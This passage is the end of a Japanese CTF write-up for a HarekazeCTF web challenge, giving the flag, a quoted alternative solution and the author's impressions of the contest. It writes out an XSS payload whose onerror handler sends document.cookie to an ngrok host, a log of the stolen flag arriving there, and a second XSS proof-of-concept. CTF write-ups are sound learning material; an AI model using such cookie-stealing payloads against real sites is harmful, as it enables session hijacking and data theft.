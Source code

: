 1. bufferに直接`=img src=0 onerror=location="//b4d7d69fd802.ngrok.io?"+document.cookie=`を書き込む
1. 右端の`=`をインクリメント
1. 左端の`=`をデクリメント

になっています。`b4d7d69fd802.ngrok.io`は[ngrok](https://ngrok.com/)でホストしたURLです。また、

- 文字列を生成する部分は https://copy.sh/brainfuck/text.html
- デバッグには https://arkark.github.io/brainfuck-online-simulator

を使いました。

上のコードを投げると手元のログには
```
[2020-12-26T13:34:34.906Z]  "GET /?flag=HarekazeCTF{I_th1nk_w4sm_1s_e4s1er_t0_re4d_th4n_4smjs}" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/88.0.4298.0 Safari/537.36"
```
と表示されました。web問とはいったい。

### フラグ

`HarekazeCTF{I_th1nk_w4sm_1s_e4s1er_t0_re4d_th4n_4smjs}`

### 追記

この解法すごい。感動した：

<blockquote class="twitter-tweet"><p lang="ja" dir="ltr">#%01-.++[-&lt;+]+[&gt;-]+&lt;img%20src=x%20onerror=alert(1)&gt;<br><br>めっちゃきれいにできた...</p>&mdash; こおしいず(っ&#39;ヮ&#39; )ﾉｼ🚩 (@kcz146) <a href="https://twitter.com/kcz146/status/1343716701842493440?ref_src=twsrc%5Etfw">December 29, 2020</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

## 感想

全完やったー。うれしいな。
最近HITCON CTFやhxp CTFなどの激ムズ高難度CTFでボコボコにされていたので、癒やされました。

主にweb問しか見てないですが、ファイル配付やコード中のコメントなど、問題の本質に集中できるような親切な出題の仕方がされていて楽しんで取り組めました。任意のCTFがこうあってほしいです。難易度の勾配もちょうどよかったと思います。

来年はminiじゃないCTFも期待しています！


[^1]: この問題の本質ではないですが、fastify-formbodyは[qs](https://github.com/ljharb/qs)ではなくnodeのbuiltinである[querystring](https://nodejs.org/api/querystring.html)を使っているらしいです（ref. https://github.com/fastify/fastify-formbody/tree/v5.0.0#upgrading-from-4x ）。知らなかった。配列指定がいつもの`hoge[]=xxx`ではないので注意したい。